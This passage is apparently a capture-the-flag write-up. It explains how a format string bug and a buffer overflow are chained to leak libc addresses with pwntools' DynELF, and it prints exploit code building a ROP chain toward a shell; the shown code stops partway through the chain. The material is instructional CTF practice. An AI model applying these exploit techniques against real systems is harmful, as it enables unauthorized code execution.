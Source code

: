 Since we can only input two format strings and opening up a new connection will
probably randomize the addresses again, we have to construct a reliable info
leak first. We can do this with the buffer overflow in the main function. 

1. perform info leak with the format string vulnerability
2. overwrite return address of `main` with the start of `main` to create a loop

Using this we can leak as many bytes as we want.

```python
@pwnlib.memleak.MemLeak.NoNewlines
def fmtleak(addr):
    log.debug("leaking addr 0x{:x}".format(addr))
    pl = "ABCD%10$sDCBA"
    pl += "\x00" * 3
    pl += p64(addr)
    if "\n" in pl:
        log.warning("newline in payload!")
        return ""
    vp.sendline(pl)
    x = vp.recv()
    if x:
        f = x.find("ABCD") + 4
        l = x.find("DCBA")
        res = x[f:l]
        if res == "":
            res = "\x00"

    pad = "\x00" + "A" * (0x810 - 1)
    pl = pad
    pl += p64(0xdeadc0de)
    pl += p64(main)
    vp.sendline(pl)

    return res

printf_leaked = fmtleak.q(printf_got)
log.info("printf 0x{:x}"
         .format(printf_leaked))

de = DynELF(fmtleak, printf_leaked)

# puts = de.lookup("puts", "libc")
system = de.lookup("system", "libc")

log.info("system: 0x{:x}".format(system))
# log.info("puts: 0x{:x}".format(puts))
```

With this we had the offset from system to printf (which we can leak much more
easily via the GOT) and allowed us to construct a reliable ROP exploit.

```python

system = printf_leaked - 0xf860

vp.sendline("\x00")

pad = "wat\x00"
pad += "A" * (0x810 - 4)
pl = pad
# rop by hand, because pwntools ELF can't load the leaked one
pl += p64(0xdeadc0de)
pl += p64(0x004008e3)  # pop rdi
pl += p64(0x004003cf)  # sh string
# pl += p64(puts)
```